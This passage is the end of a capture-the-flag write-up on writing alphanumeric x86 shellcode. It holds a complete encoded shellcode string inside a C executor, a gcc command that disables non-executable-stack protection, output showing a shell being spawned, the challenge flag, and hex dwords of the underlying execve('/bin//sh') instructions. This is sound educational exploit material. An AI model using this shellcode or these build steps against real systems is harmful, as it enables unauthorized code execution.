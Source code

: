 Nothing showed up! That means there is no character of "BINSHbinsh".  And the
alphanumeric shellcode is only 151 characters long. So let's put the shellcode
into our simple shellcode executor:

```c
/* shellcode.c */

int main(void)
{
    char shellcode[] = "PYj0X40PPPPPQaJPXPXPX50000500005000050000RX4Dj0Y0DODVX502C05r9qOPTYAA01A01VX500D15cFZCPTYA01A01A01VX540D15ZFXcPTYA01A01VX50C005XlRYPVX5CC005llCXPVX5AA105plcXPTYA01Tx";

    (*(void (*)())shellcode)();
}
```

Do not forget we are on 32-bit machine and the shellcode is stored in the
stack. To be able to execute the shellcode on the stack, one must disable DEP
during the compilation time.

```bash
$ gcc -m32 -z execstack -o shellcode shellcode.c
$ ./shellcode
sh-4.3$
```

Bingo! Now submit the alphanumeric shellcode to the server, and cat the flag!

## Flag

```text
SECPROG{IncredibleASMProgrammer}
```

## References

-  [x86 alphanumeric shellcodeを書いてみる][1]
-  [x86 alphanumeric shellcode encoderを書いてみる][2]
-  [Hacking/Shellcode/Alphanumeric/x86 printable opcodes][3]
-  [Encoding Real x86 Instructions][4]

[1]: http://inaz2.hatenablog.com/entry/2014/07/11/004655
[2]: http://inaz2.hatenablog.com/entry/2014/07/13/025626
[3]: http://skypher.com/wiki/index.php?title=X86_alphanumeric_opcodes
[4]: http://www.c-jump.com/CIS77/CPU/x86/lecture.html#X77_0100_sib_byte_layout


[origin]: 0x80cd0b42
[origin]: 0x8de18953
[origin]: 0x52e3896e
[origin]: 0x69622f68
[origin]: 0x68732f2f
[origin]: 0x6852d231